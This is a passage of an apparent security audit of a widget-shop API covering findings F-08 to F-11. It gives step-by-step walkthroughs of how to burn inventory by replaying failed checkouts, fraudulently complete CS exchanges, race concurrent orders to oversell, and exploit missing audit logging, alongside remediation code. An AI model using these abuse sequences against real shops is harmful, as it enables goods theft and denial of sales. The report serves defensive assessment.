`api/src/db/migrations/20260101000004_create_widgets.js:9` — `stock_quantity` has no `CHECK (stock_quantity >= 0)` constraint, so it silently goes negative. This contradicts `DESIGN.md:401-402`: stock should decrement only "on success", and on failure "the order [is] marked failed/cancelled, customer notified, cart preserved" — with inventory untouched. There is also no rate limiting at either layer (F-04, F-05) to bound the loop.

**Description.** Checkout performs its irreversible side effect (inventory reduction) before the operation that can fail (payment), and implements no compensating action on the failure path. An attacker registers a free account, adds the maximum quantity of every widget to the cart, and POSTs `/api/orders` with `card_token: "tok_bogus"`. The API validates the address, re-prices the cart, commits the order and the stock decrement, then gets a 400 from the processor, cancels the order, and returns 402 — leaving the stock permanently reduced. Because the cart is preserved, the identical request can be replayed immediately; each iteration burns more inventory at zero cost to the attacker, with no card, no payment, and no rate limit. Since `stock_quantity` is an unconstrained signed integer, it descends into negative values, at which point the `widget.stock_quantity < item.quantity` guard at line 36 starts rejecting genuine customers permanently. The damage survives restarts (it is committed database state) and is not self-healing: nothing in the codebase ever increments `stock_quantity` except an admin manually editing it through `PATCH /api/admin/widgets/:id`. The same bug fires on every legitimately declined card, so real inventory drifts out of sync with the warehouse continuously even absent an attack, which also means the malicious signal is invisible against the background noise.

```mermaid
sequenceDiagram
    actor Atk as Attacker (free account, unverified email)
    participant API
    participant DB
    participant FP as fauxpay
    actor C as Legitimate customer
    Atk->>API: POST /api/auth/register  (free, self-service, no verification — F-06)
    API-->>Atk: 201 {token}
    Atk->>API: POST /api/cart/items {widget_id:1, quantity:100}
    API->>DB: INSERT cart_items
    loop unbounded — no rate limit (F-04/F-05), cart preserved each time
        Atk->>API: POST /api/orders {shipping_address_id, card_token:"tok_bogus"}
        API->>DB: SELECT address (own) / cart_items / widgets — re-price OK
        API->>DB: BEGIN; INSERT orders(pending_payment)+order_items;<br/>DECREMENT widgets.stock_quantity -= 100; COMMIT
        Note over DB: stock already gone — committed before payment
        API->>FP: POST /charge {card_token:"tok_bogus"}
        FP-->>API: 400 {error:"Unknown card_token"}
        API->>DB: UPDATE orders SET status='cancelled'
        Note over API,DB: NO compensating increment — stock never restored
        API-->>Atk: 402 {error:"Payment failed"}
    end
    Note over DB: stock_quantity = 0 then negative (no CHECK >= 0)
    Note over Atk,DB: EXPLOIT SUCCEEDS — entire catalog unsellable at zero attacker cost
    C->>API: POST /api/orders (valid card)
    API->>DB: SELECT widgets -> stock_quantity < quantity
    API-->>C: 400 "Insufficient stock" — denial of sales, revenue loss
```

**Root cause.** The checkout workflow orders its steps so that an irreversible local commit precedes the remote call that can fail, and provides no compensating transaction (saga) or reservation with expiry for the failure path — so every failed payment permanently destroys inventory.

**Remediation — reserve-then-capture with an expiring reservation, plus a compensating release on every failure path and a non-negative database invariant.**

Add a `CHECK` constraint and a reservation column so the invariant is enforced by the database, not just by application logic:
```js
// api/src/db/migrations/20260101000012_stock_reservations.js
exports.up = async function (knex) {
  await knex.schema.alterTable('orders', (t) => {
    t.timestamp('reservation_expires_at');
  });
  await knex.raw('ALTER TABLE widgets ADD CONSTRAINT widgets_stock_nonneg CHECK (stock_quantity >= 0)');
};
exports.down = async function (knex) {
  await knex.raw('ALTER TABLE widgets DROP CONSTRAINT widgets_stock_nonneg');
  await knex.schema.alterTable('orders', (t) => t.dropColumn('reservation_expires_at'));
};
```

Rewrite the flow in `api/src/routes/orders.js` so the decrement is a *reservation* that is explicitly released whenever the charge does not succeed:
```js
const RESERVATION_MS = 10 * 60 * 1000;

// Atomic conditional reservation: also fixes the oversell race in F-10.
async function reserveStock(trx, lineItems) {
  for (const li of lineItems) {
    const affected = await trx('widgets')
      .where('id', li.widget_id)
      .andWhere('is_active', true)
      .andWhere('stock_quantity', '>=', li.quantity)      // guard in the UPDATE itself
      .decrement('stock_quantity', li.quantity);
    if (affected === 0) {
      const e = new Error(`Insufficient stock for widget ${li.widget_id}`);
      e.code = 'OUT_OF_STOCK';
      throw e;                                            // rolls back prior decrements
    }
  }
}

async function releaseStock(lineItems) {
  await db.transaction(async (trx) => {
    for (const li of lineItems) {
      await trx('widgets').where({ id: li.widget_id }).increment('stock_quantity', li.quantity);
    }
  });
}

router.post('/', asyncHandler(async (req, res) => {
  // ... address / cart / re-pricing as before ...

  let order;
  try {
    order = await db.transaction(async (trx) => {
      const [orderRow] = await trx('orders').insert({
        user_id: userId, status: 'pending_payment',
        subtotal_cents: totalCents, total_cents: totalCents,
        shipping_address_id,
        reservation_expires_at: new Date(Date.now() + RESERVATION_MS),
      }).returning('id');
      const orderId = orderRow.id ?? orderRow;
      await trx('order_items').insert(lineItems.map((li) => ({ ...li, order_id: orderId })));
      await reserveStock(trx, lineItems);                 // reservation, not a sale
      return { id: orderId };
    });
  } catch (err) {
    if (err.code === 'OUT_OF_STOCK') return res.status(409).json({ error: err.message });
    throw err;
  }

  let chargeResult;
  try {
    chargeResult = await fauxpay.charge({
      cardToken: card_token, amountCents: totalCents, orderId: order.id,
      idempotencyKey: `order-${order.id}`,                // no double charge on retry
    });
  } catch (err) {
    // COMPENSATING TRANSACTION — the reservation is always released.
    await releaseStock(lineItems);
    await db('orders').where({ id: order.id })
      .update({ status: 'cancelled', reservation_expires_at: null });
    req.log?.warn({ event: 'checkout.payment_failed', order_id: order.id, user_id: userId });
    return res.status(payErrorStatus(err)).json({ error: 'Payment failed' });   // see F-12
  }

  try {
    await db.transaction(async (trx) => {
      const [paymentRow] = await trx('payments').insert({
        order_id: order.id,
        processor_transaction_id: chargeResult.transaction_id,
        amount_cents: totalCents, status: 'captured',
        card_last4: chargeResult.last4, card_brand: chargeResult.brand,
      }).returning('id');
      await trx('orders').where({ id: order.id })
        .update({ status: 'paid', payment_id: paymentRow.id ?? paymentRow, reservation_expires_at: null });
      await trx('cart_items').where({ cart_id: cart.id }).del();   // reservation becomes a sale
    });
  } catch (err) {
    // Charge succeeded but our bookkeeping failed: refund rather than keep the money.
    await fauxpay.refund({ transactionId: chargeResult.transaction_id, amountCents: totalCents });
    await releaseStock(lineItems);
    await db('orders').where({ id: order.id }).update({ status: 'cancelled' });
    throw err;
  }

  res.status(201).json(await db('orders').where({ id: order.id }).first());
}));
```
Add a sweeper (cron or `setInterval` in a single worker) that releases stock for any order still `pending_payment` past `reservation_expires_at`, so a crash between the reservation and the charge cannot leak inventory either. Combine with the gateway's `limit_req zone=api` (F-04) and a per-user checkout limit so even a correctly-compensated flow cannot be hammered.

*Why this closes the gap:* reserve-then-capture with an explicit compensating release makes the inventory effect conditional on payment actually succeeding — the attacker's bogus-token loop now reserves and immediately releases, leaving stock exactly where it started, so the attack has no lasting effect. The `CHECK (stock_quantity >= 0)` constraint and the conditional `UPDATE ... WHERE stock_quantity >= quantity` make the invariant impossible to violate even if a future code path forgets to compensate, and the expiry sweeper bounds the damage from a process crash.

**OWASP mapping.** A04:2021 Insecure Design (business-logic flaw / missing compensating transaction); A01:2021 Broken Access Control (unrestricted access to a sensitive business flow). API Security Top 10: API6 Unrestricted Access to Sensitive Business Flows, API4 Unrestricted Resource Consumption. ASVS v5.0: V11.1.1 (business logic processed in sequence with no step skipped), V11.1.2 (business limits enforced), V11.1.4 (anti-automation on high-value business flows), V1.11 (transactional integrity / compensating actions).

---

### F-09 — CS exchange flow: unvalidated returned/replacement items, arbitrary state transitions, no financial settlement

**Severity: Medium** (Impact 4, Likelihood 3, Complexity 3)

- **Impact — Severe.** The flow ships goods. An exchange can be created for an item the customer never bought and completed for an arbitrarily more expensive replacement in unlimited quantity, with no payment collected — direct, repeatable goods theft, laundered through a legitimate-looking audit record.
- **Likelihood — Likely.** It requires the `customer_service` role, but that role is reachable via a forged token (F-01), a brute-forced seeded account (F-05), or a single insider — and refund/exchange abuse is the canonical e-commerce insider-fraud pattern.
- **Complexity — Medium.** One authenticated API call with hand-chosen JSON fields; no exploit development, but the request must be crafted outside the SPA (which exposes no exchange UI at all).

**Evidence**

`api/src/routes/cs.js:71-91` — client-supplied item ids and quantities are inserted verbatim; nothing checks that `returned_widget_id` appears in the order's `order_items`, that `returned_quantity` does not exceed what was purchased, that `replacement_quantity` is a positive integer, or that any of the four values are numbers at all:
```js
router.post('/orders/:id/exchanges', asyncHandler(async (req, res) => {
  const { returned_widget_id, returned_quantity, replacement_widget_id, replacement_quantity, notes } = req.body || {};
  const order = await db('orders').where({ id: req.params.id }).first();
  if (!order) return res.status(404).json({ error: 'Order not found' });

  const [row] = await db('exchanges')
    .insert({
      order_id: order.id,
      processed_by: req.user.sub,
      returned_widget_id,
      returned_quantity,
      replacement_widget_id,
      replacement_quantity,
      status: 'requested',
      notes,
    })
    .returning('id');
```
`api/src/routes/cs.js:93-114` — status is validated against an allowlist of *values* but not against the *transition*: `requested -> completed` is accepted directly, skipping `received`; `completed` can be replayed; `rejected` resets the order to `paid` unconditionally:
```js
  const { status, notes } = req.body || {};
  if (status && !['requested', 'received', 'completed', 'rejected'].includes(status)) {
    return res.status(400).json({ error: 'Invalid status' });
  }
  ...
  if (status === 'completed') {
    await db('orders').where({ id: exchange.order_id }).update({ status: 'exchanged' });
  } else if (status === 'rejected') {
    await db('orders').where({ id: exchange.order_id }).update({ status: 'paid' });
  }
```
There is **no** price-difference settlement anywhere in the file — no `fauxpay.charge` and no `fauxpay.refund` call in the exchange handlers (the only `fauxpay.refund` is in the refunds handler at `cs.js:46`) — and no stock movement for either the returned or the replacement widget. This contradicts `DESIGN.md:420` ("if replacement price differs from returned item, CS issues a partial refund or requests an additional payment... to settle the difference") and the 7.7.6 diagram, and defeats `DESIGN.md:889`'s requirement for "price-difference settlement". Compare the refund handler at `cs.js:38-42`, which *does* bound the amount against `order.total_cents` — the exchange path has no equivalent value ceiling of any kind. Migration `20260101000008:17-20` leaves `returned_quantity` / `replacement_quantity` as plain nullable integers with no `CHECK`, so negative and absurd values persist happily.

**Description.** The exchange endpoints trust the caller for every business-critical parameter and enforce no workflow. A holder of the CS role (legitimate, forged per F-01, or brute-forced per F-05) picks any order — including a stranger's 9.99 USD order — and POSTs an exchange claiming the return of a cheap widget and the shipment of an arbitrary quantity of the most expensive one. Because `returned_widget_id` is never checked against the order's `order_items`, the claimed return need not have been purchased; because no settlement is implemented, the price delta is never charged; because `replacement_quantity` is unvalidated, it can be 1000. A single `PATCH /api/cs/exchanges/:id {status:"completed"}` then jumps straight past `received` — the step that is supposed to mean "the customer's item is physically back in the warehouse" — and flips the order to `exchanged`, which is the downstream signal to ship. The result is fulfilment of goods that were never returned and never paid for, recorded as a well-formed exchange with `processed_by` pointing at a real staff account, so the audit trail actively misleads. Repeating the `completed`/`rejected` PATCH also lets an attacker flap the order status arbitrarily, corrupting reconciliation and (via `rejected`) resetting a refunded order back to `paid`. Note the SPA never calls these endpoints, so they are undocumented, untested surface that no UI constrains — only direct API calls reach them.

```mermaid
sequenceDiagram
    actor Atk as CS-role holder (insider / forged token F-01 / brute-forced F-05)
    participant API
    participant DB
    participant WH as Warehouse / fulfilment
    Atk->>API: GET /api/cs/orders  (role-wide: every order visible)
    API->>DB: SELECT orders JOIN users
    API-->>Atk: 200 order #4102 — customer bought 1x Standard Widget ($9.99)
    Atk->>API: POST /api/cs/orders/4102/exchanges<br/>{returned_widget_id: 1 (NEVER in this order), returned_quantity: 1,<br/> replacement_widget_id: 2 (Deluxe $24.99), replacement_quantity: 1000}
    API->>DB: SELECT orders WHERE id=4102  (only existence checked)
    Note over API,DB: no check returned_widget_id in order_items;<br/>no quantity bound; no price delta computed
    API->>DB: INSERT exchanges(status='requested', processed_by=Atk)
    API->>DB: UPDATE orders SET status='exchange_pending'
    API-->>Atk: 201 exchange #77
    Note over Atk,API: skip 'received' — the physical-return checkpoint
    Atk->>API: PATCH /api/cs/exchanges/77 {status:"completed"}
    API->>DB: UPDATE exchanges SET status='completed'
    API->>DB: UPDATE orders SET status='exchanged'
    Note over API,DB: NO fauxpay.charge for the $24,980 delta;<br/>NO stock movement; NO approval step
    API-->>Atk: 200 exchange completed
    DB->>WH: order status 'exchanged' -> ship 1000x Deluxe Widget
    Note over Atk,WH: EXPLOIT SUCCEEDS — $24,990 of goods shipped for a<br/>$9.99 order, no item returned, no payment taken,<br/>audit row looks legitimate (processed_by = real staff id)
```

**Root cause.** The exchange endpoints treat client-supplied item references, quantities, and status values as authoritative: the returned item is never bound to the order it claims to come from, the replacement is never priced against the original, and the status field is validated as a value rather than as a transition in a state machine — so the workflow's physical and financial checkpoints can all be skipped.

**Remediation — bind the exchange to the order's actual line items, enforce an explicit state machine with a server-computed settlement, and require dual control for net-value-out.**

Schema invariants first:
```js
// api/src/db/migrations/20260101000013_harden_exchanges.js
exports.up = async function (knex) {
  await knex.schema.alterTable('exchanges', (t) => {
    t.integer('order_item_id').unsigned().references('id').inTable('order_items'); // the proven purchase
    t.integer('settlement_cents');            // server-computed delta
    t.string('settlement_processor_id');
    t.integer('approved_by').unsigned().references('id').inTable('users');
  });
  await knex.raw(`ALTER TABLE exchanges
    ADD CONSTRAINT exchanges_qty_positive
    CHECK (returned_quantity > 0 AND replacement_quantity > 0)`);
};
```

`api/src/routes/cs.js` — validate ownership, bound quantities, compute the delta server-side:
```js
const MAX_EXCHANGE_QTY = 100;

router.post('/orders/:id/exchanges', asyncHandler(async (req, res) => {
  const { returned_widget_id, returned_quantity, replacement_widget_id, replacement_quantity, notes } = req.body || {};

  const retQty = Number(returned_quantity), repQty = Number(replacement_quantity);
  if (!Number.isInteger(retQty) || retQty < 1 || retQty > MAX_EXCHANGE_QTY ||
      !Number.isInteger(repQty) || repQty < 1 || repQty > MAX_EXCHANGE_QTY) {
    return res.status(400).json({ error: 'returned_quantity and replacement_quantity must be integers between 1 and 100' });
  }

  const order = await db('orders').where({ id: req.params.id }).first();
  if (!order) return res.status(404).json({ error: 'Order not found' });
  // Only a paid (or partially refunded) order can be exchanged.
  if (!['paid', 'partially_refunded'].includes(order.status)) {
    return res.status(409).json({ error: `Order in status '${order.status}' is not eligible for exchange` });
  }

  // BOLA/ownership: the returned item MUST be a line item on THIS order.
  const orderItem = await db('order_items')
    .where({ order_id: order.id, widget_id: returned_widget_id }).first();
  if (!orderItem) {
    return res.status(400).json({ error: 'Returned item is not part of this order' });
  }

  // Quantity ceiling: cannot return more than was purchased, net of prior exchanges.
  const prior = await db('exchanges')
    .where({ order_id: order.id, returned_widget_id })
    .whereNotIn('status', ['rejected'])
    .sum('returned_quantity as total').first();
  if (Number(prior.total || 0) + retQty > orderItem.quantity) {
    return res.status(400).json({ error: 'Returned quantity exceeds quantity purchased' });
  }

  const replacement = await db('widgets')
    .where({ id: replacement_widget_id, is_active: true }).first();
  if (!replacement) return res.status(400).json({ error: 'Replacement widget is not available' });

  // Settlement computed from authoritative data: immutable purchase price vs current catalog price.
  const returnedValue = orderItem.unit_price_cents * retQty;
  const replacementValue = replacement.price_cents * repQty;
  const settlement = replacementValue - returnedValue;      // >0 = customer owes us

  const [row] = await db('exchanges').insert({
    order_id: order.id,
    processed_by: req.user.sub,
    order_item_id: orderItem.id,
    returned_widget_id, returned_quantity: retQty,
    replacement_widget_id, replacement_quantity: repQty,
    settlement_cents: settlement,
    status: 'requested',
    notes: typeof notes === 'string' ? notes.slice(0, 2000) : null,
  }).returning('id');

  await db('orders').where({ id: order.id }).update({ status: 'exchange_pending' });
  res.status(201).json(await db('exchanges').where({ id: row.id ?? row }).first());
}));
```

```js
// Explicit state machine: only these transitions exist.
const TRANSITIONS = {
  requested: ['received', 'rejected'],
  received:  ['completed', 'rejected'],
  completed: [],                                  // terminal — no replay
  rejected:  [],                                  // terminal
};

router.patch('/exchanges/:id', asyncHandler(async (req, res) => {
  const { status, notes } = req.body || {};
  const exchange = await db('exchanges').where({ id: req.params.id }).first();
  if (!exchange) return res.status(404).json({ error: 'Exchange not found' });

  if (status) {
    if (!TRANSITIONS[exchange.status]?.includes(status)) {
      return res.status(409).json({
        error: `Cannot transition exchange from '${exchange.status}' to '${status}'`,
      });
    }
    // Dual control when the exchange gives away net value.
    if (status === 'completed' && exchange.settlement_cents < 0 && !exchange.approved_by) {
      return res.status(403).json({ error: 'A second CS approver is required to complete a net-refund exchange' });
    }
    if (exchange.approved_by === req.user.sub) {
      return res.status(403).json({ error: 'Approver and processor must be different users' });
    }
  }

  await db.transaction(async (trx) => {
    await trx('exchanges').where({ id: exchange.id }).update({
      ...(status ? { status } : {}),
      ...(notes !== undefined ? { notes: String(notes).slice(0, 2000) } : {}),
      updated_at: trx.fn.now(),
    });

    if (status === 'completed') {
      // Settle the difference through the processor BEFORE releasing goods.
      const payment = await trx('payments').where({ id: (await trx('orders')
        .where({ id: exchange.order_id }).first()).payment_id }).first();
      if (exchange.settlement_cents > 0) {
        const charge = await fauxpay.charge({
          cardToken: payment.processor_card_token, amountCents: exchange.settlement_cents,
          orderId: exchange.order_id, idempotencyKey: `exch-${exchange.id}-charge`,
        });
        await trx('exchanges').where({ id: exchange.id })
          .update({ settlement_processor_id: charge.transaction_id });
      } else if (exchange.settlement_cents < 0) {
        const r = await fauxpay.refund({
          transactionId: payment.processor_transaction_id,
          amountCents: Math.abs(exchange.settlement_cents),
          idempotencyKey: `exch-${exchange.id}-refund`,
        });
        await trx('refunds').insert({
          order_id: exchange.order_id, payment_id: payment.id, issued_by: req.user.sub,
          amount_cents: Math.abs(exchange.settlement_cents),
          reason: `Exchange #${exchange.id} settlement`, processor_refund_id: r.refund_id,
        });
      }
      // Inventory moves only now: returned item back in, replacement out.
      await trx('widgets').where({ id: exchange.returned_widget_id })
        .increment('stock_quantity', exchange.returned_quantity);
      const shipped = await trx('widgets').where({ id: exchange.replacement_widget_id })
        .andWhere('stock_quantity', '>=', exchange.replacement_quantity)
        .decrement('stock_quantity', exchange.replacement_quantity);
      if (shipped === 0) throw Object.assign(new Error('Insufficient replacement stock'), { code: 'OUT_OF_STOCK' });
      await trx('orders').where({ id: exchange.order_id }).update({ status: 'exchanged' });
    } else if (status === 'rejected') {
      await trx('orders').where({ id: exchange.order_id }).update({ status: 'paid' });
    }
  });

  res.json(await db('exchanges').where({ id: req.params.id }).first());
}));
```

*Why this closes the gap:* requiring the returned item to resolve to a real `order_items` row on *this* order, and capping the quantity at what was actually purchased net of prior exchanges, means a claim can never be made for goods the customer does not own — the exact "warranty/return claim for an item never purchased" pattern. Computing `settlement_cents` from the immutable `order_items.unit_price_cents` and the current catalog price, server-side, makes the upgrade-for-free path impossible because the delta is charged before anything ships. The explicit transition table makes `received` an unskippable checkpoint and both `completed` and `rejected` terminal (killing the status-flapping and replay), and dual control on net-value-out exchanges means a single compromised or malicious CS identity cannot move value on its own.

**OWASP mapping.** A01:2021 Broken Access Control; A04:2021 Insecure Design (business-logic / workflow flaw). API Security Top 10: API1 Broken Object Level Authorization (returned item not bound to the order), API3 Broken Object Property Level Authorization (mass-assigned item ids/quantities), API6 Unrestricted Access to Sensitive Business Flows. ASVS v5.0: V11.1.1 (steps processed in sequence, no skipping), V11.1.2 (business limits), V11.1.5 (high-value transactions require additional authorization), V4.2.1 (server-side verification of object ownership), V1.11.3 (state transitions validated).

---

### F-10 — Checkout stock check and decrement race allows overselling into negative inventory

**Severity: Medium** (Impact 3, Likelihood 3, Complexity 3)

- **Impact — Major functional disruption.** Concurrent checkouts each pass the stock check and then each decrement, so the shop sells more units than exist — oversold orders that must be cancelled or backordered, with `stock_quantity` driven negative. On a limited-stock drop this is both a fulfilment failure and a customer-trust event.
- **Likelihood — Likely.** Does not require malice: two normal customers buying the last unit simultaneously trigger it. An attacker deliberately races it whenever scarcity has value (limited editions, promotional pricing).
- **Complexity — Medium.** Needs the ability to fire concurrent authenticated requests — `xargs -P`, `ab`, or a short async script — so some technical ability but no exploit development.

**Evidence**

`api/src/routes/orders.js:30-39` — the read-and-validate happens outside any transaction, against a snapshot:
```js
  const widgets = await db('widgets').whereIn('id', widgetIds).andWhere({ is_active: true });
  const widgetsById = new Map(widgets.map((w) => [w.id, w]));

  for (const item of cartItems) {
    const widget = widgetsById.get(item.widget_id);
    if (!widget) return res.status(400).json({ error: `Widget ${item.widget_id} is no longer available` });
    if (widget.stock_quantity < item.quantity) {
      return res.status(400).json({ error: `Insufficient stock for ${widget.name}` });
    }
  }
```
`api/src/routes/orders.js:61-63` — the decrement, in a later transaction, is unconditional: no `WHERE stock_quantity >= quantity` predicate, no `SELECT ... FOR UPDATE` row lock, no re-validation:
```js
    for (const li of lineItems) {
      await trx('widgets').where({ id: li.widget_id }).decrement('stock_quantity', li.quantity);
    }
```
`api/src/db/migrations/20260101000004_create_widgets.js:9` — no database-level floor to catch the violation:
```js
    table.integer('stock_quantity').notNullable().defaultTo(0);
```
The default Postgres isolation level (`READ COMMITTED`, unchanged in `api/src/db/knexfile.js`) does not prevent this: both transactions read the pre-decrement value in their own earlier snapshot and both apply a valid relative decrement.

**Description.** Classic time-of-check-to-time-of-use. The guard at line 36 evaluates a value read before the transaction opened, and the mutation at line 62 is a relative `decrement` with no predicate, so nothing revalidates the invariant at write time. With one unit of a widget in stock, two simultaneous `POST /api/orders` requests both read `stock_quantity = 1`, both pass `1 < 1 == false`, and both decrement — leaving `-1` and two orders that will each be charged and each expect fulfilment. An attacker who wants N units of a scarcity-limited item simply fires N concurrent checkouts rather than N sequential ones. The window is wide in practice because several `await` round-trips to Postgres separate the check from the decrement, and Node's single-threaded event loop interleaves the concurrent requests precisely in that gap. Note that the F-08 fix (releasing stock on payment failure) does not address this on its own: overselling happens on the *success* path, where both charges go through.

```mermaid
sequenceDiagram
    actor A1 as Attacker session 1
    actor A2 as Attacker session 2
    participant API
    participant DB
    participant FP as fauxpay
    Note over DB: widgets.stock_quantity = 1 (last unit)
    par concurrent requests fired in the same instant
        A1->>API: POST /api/orders {card_token, shipping_address_id}
    and
        A2->>API: POST /api/orders {card_token, shipping_address_id}
    end
    API->>DB: [req1] SELECT widgets WHERE id IN (1)
    DB-->>API: stock_quantity = 1
    API->>DB: [req2] SELECT widgets WHERE id IN (1)
    DB-->>API: stock_quantity = 1     <-- same pre-decrement snapshot
    API->>API: [req1] check 1 < 1 -> false, PASS
    API->>API: [req2] check 1 < 1 -> false, PASS
    Note over API,DB: TOCTOU window: several awaits between check and write
    API->>DB: [req1] BEGIN; INSERT orders/order_items;<br/>UPDATE widgets SET stock_quantity = stock_quantity - 1; COMMIT
    DB-->>API: stock_quantity = 0
    API->>DB: [req2] BEGIN; INSERT orders/order_items;<br/>UPDATE widgets SET stock_quantity = stock_quantity - 1; COMMIT
    DB-->>API: stock_quantity = -1    <-- no CHECK constraint, no predicate
    API->>FP: [req1] POST /charge -> captured
    API->>FP: [req2] POST /charge -> captured
    API-->>A1: 201 order paid
    API-->>A2: 201 order paid
    Note over A1,DB: EXPLOIT SUCCEEDS — 2 units sold, 1 exists;<br/>negative inventory, unfulfillable orders, both cards charged
```

**Root cause.** The stock invariant is enforced by an application-level read-then-check against a stale snapshot rather than by an atomic conditional write or a row lock, and the database schema carries no constraint to backstop it — so any two concurrent checkouts can both believe they hold the last unit.

**Remediation — atomic conditional `UPDATE` (compare-and-swap) as the sole stock gate, backed by a database `CHECK` constraint.**

This is the same `reserveStock` helper introduced in F-08; applied here, the guard moves *into* the write:
```js
// api/src/routes/orders.js — the decrement itself is the check.
async function reserveStock(trx, lineItems) {
  for (const li of lineItems) {
    const affected = await trx('widgets')
      .where('id', li.widget_id)
      .andWhere('is_active', true)
      .andWhere('stock_quantity', '>=', li.quantity)   // atomic predicate, evaluated by the DB
      .decrement('stock_quantity', li.quantity);
    if (affected === 0) {
      // Another transaction took the units between our read and this write.
      const e = new Error(`Insufficient stock for widget ${li.widget_id}`);
      e.code = 'OUT_OF_STOCK';
      throw e;                                          // rolls back the whole order
    }
  }
}
```
called inside the order transaction, with the pre-flight loop at lines 33-39 kept only as a fast-fail UX check (it is no longer a security control). Deterministic lock ordering avoids deadlock between two multi-item carts racing on the same widgets — sort the line items before reserving:
```js
  const lineItems = cartItems.map(...).sort((a, b) => a.widget_id - b.widget_id);
```
And make the invariant unbreakable regardless of application code (same migration as F-08):
```js
await knex.raw('ALTER TABLE widgets ADD CONSTRAINT widgets_stock_nonneg CHECK (stock_quantity >= 0)');
```
Handle the thrown error at the route level as a `409 Conflict` so the SPA can tell the customer the item just sold out:
```js
  } catch (err) {
    if (err.code === 'OUT_OF_STOCK') return res.status(409).json({ error: err.message });
    throw err;
  }
```
If future requirements need a hold spanning several statements, use an explicit row lock instead — `await trx('widgets').where({ id }).forUpdate().first()` — which serializes the racing transactions on that row.

*Why this closes the gap:* moving the comparison into the `WHERE` clause of the `UPDATE` makes check-and-decrement a single atomic database operation, so exactly one of two racing transactions can match `stock_quantity >= quantity` and the loser gets `affected === 0` and rolls back — the TOCTOU window disappears entirely rather than being narrowed. The `CHECK` constraint converts any residual logic error anywhere in the codebase into a loud transaction failure instead of silent negative inventory.

**OWASP mapping.** A04:2021 Insecure Design (race condition / TOCTOU in a business flow). API Security Top 10: API6 Unrestricted Access to Sensitive Business Flows. ASVS v5.0: V11.1.6 (protection against race conditions / concurrent request abuse in business logic), V11.1.2 (business limits enforced), V1.11.2 (all high-value logic flows are thread-safe and resistant to TOCTOU).

---

### F-11 — No audit trail for authentication or privilege changes; no last-admin or self-demotion guard

**Severity: Medium** (Impact 3, Likelihood 3, Complexity 2)

- **Impact — Major.** Without authentication and privilege-change logs, the attacks in F-01, F-03, and F-05 are undetectable and unreconstructable: there is no record of who logged in, from where, when a role changed, or who changed it. Incident response cannot scope a breach, and every action performed with a forged or stolen token is indistinguishable from legitimate staff work. The unguarded role endpoint additionally lets an admin lock the organization out of its own admin functions.
- **Likelihood — Likely.** The absence is certain and permanent; it becomes consequential the first time any of the above is exploited or any staff action is disputed.
- **Complexity — Medium to High.** This is an enabling weakness rather than a standalone exploit — realizing the self-lockout requires the admin role, and exploiting the logging gap requires first achieving access by another means.

**Evidence**

`api/src/routes/admin.js:70-78` — a role change writes no audit record, does not capture the previous value, does not prevent an admin from demoting themselves, and does not prevent the removal of the last remaining admin:
```js
router.patch('/users/:id/role', asyncHandler(async (req, res) => {
  const { role } = req.body || {};
  if (!['customer', 'admin', 'customer_service'].includes(role)) {
    return res.status(400).json({ error: 'Invalid role' });
  }
  const updated = await db('users').where({ id: req.params.id }).update({ role });
  if (!updated) return res.status(404).json({ error: 'User not found' });
  res.json(await db('users').where({ id: req.params.id }).select('id', 'email', 'full_name', 'role').first());
}));
```
`api/src/app.js:32-35` — the only logging in the entire API is an unstructured `console.error` of unhandled exceptions; there is no request logger, no security-event logger, and no correlation id:
```js
app.use((err, req, res, next) => {
  console.error(err);
  res.status(500).json({ error: 'Internal server error' });
});
```
Grep confirms no logging framework is present: `api/package.json:12-21` lists no `pino`, `winston`, or `morgan`. `api/src/routes/auth.js:37-53` records nothing on login success or failure (and has no `failed_login_attempts` column to increment — F-05). No `audit_log` table exists in `api/src/db/migrations/`.
By contrast, the money flows *do* capture an actor — `cs.js:55` (`issued_by: req.user.sub`), `cs.js:79` (`processed_by`), `admin.js:25-26,44` (`created_by`/`updated_by`) — which satisfies `DESIGN.md:890` for refunds/exchanges but leaves privilege changes and all authentication events unrecorded, against `DESIGN.md:891`/`:902`'s broader auditability intent.

**Description.** Two related gaps. First, observability: nothing records authentication outcomes or administrative privilege changes. If an attacker forges a `role: admin` token (F-01) or brute-forces the seeded CS account (F-05) and issues refunds, the only artifact is a `refunds.issued_by` pointing at a legitimate user id — there is no login record to contradict it, no source IP, no timestamped trail of the role grant that created the access. The legitimate user cannot repudiate the action and the company cannot prove it was not them; conversely a genuinely malicious insider has plausible deniability. Detection is equally impossible: 100,000 failed logins and one success produce exactly zero log lines, so no alert can fire. Second, integrity of the role model: `PATCH /api/admin/users/:id/role` will happily set the only admin's role to `customer`, after which no account can reach `/api/admin/*` at all (`requireRole('admin')`, `admin.js:8`) and the only recovery is direct database access — a self-inflicted denial of service that a confused or malicious admin, or an attacker using a forged token to burn down the victim's control plane, can trigger with one request. There is also no re-authentication step on this privilege-granting operation, so a stolen 12-hour token (F-03) is sufficient to mint a persistent admin backdoor.



**Root cause.** Security-relevant events are not treated as first-class, durable records: the application logs only unhandled exceptions, and privilege mutation is implemented as a plain column update with no before/after capture, no actor attribution, and no invariant protecting the existence of at least one administrator.

**Remediation — append-only `audit_log` with structured security-event logging, plus an invariant-checked role-change transaction requiring re-authentication.**

Migration:
```js
// api/src/db/migrations/20260101000014_create_audit_log.js
exports.up = function (knex) {
  return knex.schema.createTable('audit_log', (t) => {
    t.bigIncrements('id').primary();
    t.string('event').notNullable();                 // e.g. 'user.role.changed', 'auth.login.failure'
    t.integer('actor_user_id').unsigned().references('id').inTable('users');
    t.string('actor_ip');
    t.string('target_type');
    t.string('target_id');
    t.jsonb('before');
    t.jsonb('after');
    t.jsonb('context');
    t.timestamp('created_at').notNullable().defaultTo(knex.fn.now());
    t.index(['event', 'created_at']);
    t.index(['actor_user_id', 'created_at']);
  }).then(() =>
    // Append-only: the application role may INSERT and SELECT but never UPDATE/DELETE.
    knex.raw(`
      REVOKE UPDATE, DELETE ON audit_log FROM CURRENT_USER;
      CREATE RULE audit_log_no_update AS ON UPDATE TO audit_log DO INSTEAD NOTHING;
      CREATE RULE audit_log_no_delete AS ON DELETE TO audit_log DO INSTEAD NOTHING;
    `));
};
exports.down = (knex) => knex.schema.dropTableIfExists('audit_log');
```

Reusable writer (`api/src/services/audit.js`):
```js
const db = require('../db/connection');

async function audit(trx, { event, req, targetType, targetId, before, after, context }) {
  await (trx || db)('audit_log').insert({
    event,
    actor_user_id: req?.user?.sub ?? null,
    actor_ip: req?.ip ?? null,
    target_type: targetType ?? null,
    target_id: targetId != null ? String(targetId) : null,
    before: before ? JSON.stringify(before) : null,
    after: after ? JSON.stringify(after) : null,
    context: context ? JSON.stringify(context) : null,
  });
}
